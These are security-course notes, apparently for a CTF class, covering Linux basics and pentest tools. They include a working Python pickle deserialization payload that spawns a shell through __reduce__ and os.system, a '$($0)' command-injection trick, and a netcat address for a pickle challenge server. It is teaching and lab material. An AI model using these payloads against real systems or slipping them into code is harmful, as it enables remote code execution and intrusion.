 # Slides
## Linux and System Admin
slides: [Linux_and_SA](Python_Linux_n_SystemAdmin/Linux_and_SA.pptx)
 * **Linux Common Command**
  * `echo $0`: 印出目前在跑的process名稱
   * 如果是$($0) => $() 開啟shell，$0 => 就是shell！
   * 交大網路安全實務期末互打比賽，每個主機上有可以執行任何command的漏洞，大家都忙著寫script過濾command，據說很多人被```$($0)```打死XD
  * `touch`: create an empty file, `cat file`: print file content to stdout, `nc`: create TCP/UDP connection/listen, `cmd1 | cmd2`: pipe stdout of cmd1 as stdin of cmd2
 * **Kali Linux**：綜合了各種滲透測試工具的作業系統，Ubuntu的好親戚
## Python
slides: [Python](Python_Linux_n_SystemAdmin/Python.pptx)
 * **Socket**: basic module for TCP/UDP connections
 * **Struct**
 * **Pwntools**

# Today's Vulnerable
pickle 是個可以把class serialized 和deserialized 的module，以下程式能叫出shell！
 ```python
  import pickle
  import os
  class Exploit(object):
    def __reduce__(self):
      comm = "sh"
      return (os.system, (comm,))
a = pickle.dumps(Exploit()) # searlized to String
b = pickle.loads(a) # desearlized from String
```
## Remark
 * deserialized回來時，需要告訴python 要怎麼還原回來，而這個還原方法就是在 ```__reduce__(self)```裡指定。
=> 也就是，反serialized時會call ```__reduce__(self)```
 *  ```__reduce__(self)``` 回傳的格式：[desearlized_function][argument to desearlized_function]
 => ```(os.system, (comm,))``` 會desearlized成 ```os.system("sh")```，***calling shell***!

# Get the Flag
1. [Pickle](Pickle)
 * server： ```nc 140.113.194.85 49167```
 * [server code](Pickle/spam.py)
 * Hint: pickle vulnerable
